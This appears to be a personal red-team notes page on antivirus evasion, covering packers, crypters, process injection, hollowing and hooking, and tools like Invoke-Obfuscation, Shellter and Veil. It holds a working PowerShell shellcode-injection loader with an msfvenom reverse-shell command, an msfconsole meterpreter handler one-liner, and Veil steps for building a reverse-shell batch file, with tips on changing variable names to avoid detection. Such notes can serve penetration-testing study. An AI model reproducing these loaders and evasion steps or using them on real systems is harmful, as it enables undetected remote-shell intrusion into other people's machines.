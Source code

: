 # Techniques (Theory)
## On-Disk Evasion
1) **Packers**
Given the high cost of disk space and slow network speeds during the early days of the internet, **packers** were originally designed to reduce the size of an executable. Unlike modern "zip" compression techniques, packers generate an executable that is not only smaller, but is also functionally equivalent with a completely new binary structure. The file produced has a new hash signature and as a result, can effectively bypass older and more simplistic AV scanners. Even though some modern malware uses a variation of this technique, the use of UPX and other popular packers alone is not sufficient to evade modern AV scanners.

2) **Obfuscators**
**Obfuscators** reorganize and mutate code in a way that makes it more difficult to reverse-engineer. This includes *replacing instructions with semantically equivalent ones, inserting irrelevant instructions or dead code, splitting or reordering functions*, and so on. Although primarily used by software developers to protect their intellectual property, this technique is also marginally effective against signature-based AV detection.

3) **Crypter**
Crypter software cryptographically alters executable code, adding a decryption stub that restores the original code upon execution. This decryption happens in-memory, leaving only the encrypted code on-disk. Encryption has become foundational in modern malware as one of the most effective AV evasion techniques.

Among commercially available tools, `The Enigma Protector` in particular can be used to successfully bypass antivirus products.


## In-Memory Evasion
1) **Remote Process Memory Injection**
inject the payload into another valid PE that is not malicious. The most common method of doing this is by leveraging a set of Windows APIs. First, we would use the `OpenProcess` function to obtain a valid `HANDLE` to a target process that we have permission to access. After obtaining the `HANDLE`, we would allocate memory in the context of that process by calling a Windows API such as `VirtualAllocEx`. Once the memory has been allocated in the remote process, we would copy the malicious payload to the newly allocated memory using `WriteProcessMemory`. After the payload has been successfully copied, it is usually executed in memory in a separate thread using the `CreateRemoteThread`API.

```powershell
# Basic code for Remote Process Memory Injection (Remove this comment & change variable names if necessary1)
$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];   
# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
[Byte[]] $var1 = <place your shellcode here>

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

2) **Reflective DLL Injection**
Unlike regular DLL injection, which involves loading a malicious DLL from disk using the *LoadLibrary* API, the **Reflective DLL Injection** technique attempts to load a DLL stored by the attacker in the process memory.
The main challenge of implementing this technique is that *LoadLibrary* does not support loading a DLL from memory. Furthermore, the Windows operating system does not expose any APIs that can handle this either. Attackers who choose to use this technique must write their own version of the API that does not rely on a disk-based DLL.

3) **Process Handling**
When using **process hollowing** to bypass antivirus software, *attackers first launch a non-malicious process in a suspended state*. Once launched, the *image of the process is removed from memory and replaced with a malicious executable image*. Finally, the process is then resumed and malicious code is executed instead of the legitimate process.

4) **Inline Hooking**
**Inline hooking**, as the name suggests, involves modifying memory and introducing a *hook (an instruction that redirects the code execution)* into a function to make it point to our malicious code. Upon executing our malicious code, the flow will return back to the modified function and resume execution, appearing as if only the original code had executed. Used in rootkits.

---

![[Pasted image 20230129203220.png]]

# Elitewrap
An EXE wrapper, used to pack files into an archive executable that can extract and execute them in specified ways when the packfile is run.
![[Pasted image 20230204221410.png]]

---
# Invoke-Obfuscation
```powershell
# Initial setup (Everytime)
Import-Module .\Invoke-Obfuscation.psd1
Invoke-Obfuscation

# Set Scriptpath
SET SCRIPTPATH /root/DeepCytes/Red_Team/Invoke-Obfuscation/script.ps1

# Obfuscation technique that works!
AST
1
## Copy the payload and execute it in the target machine
```


# Shellter
![[Pasted image 20240617113951.png]]

![[Pasted image 20240617114028.png]]

```sh
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```


# Veil
[Installation Video](https://www.youtube.com/watch?v=tpJrnKEakW0)

### Create .bat reverse shell (Using PowerShell)
```sh
veil
use Evasion
use powershell/meterpreter/rev_tcp.py
# Set options
generate
```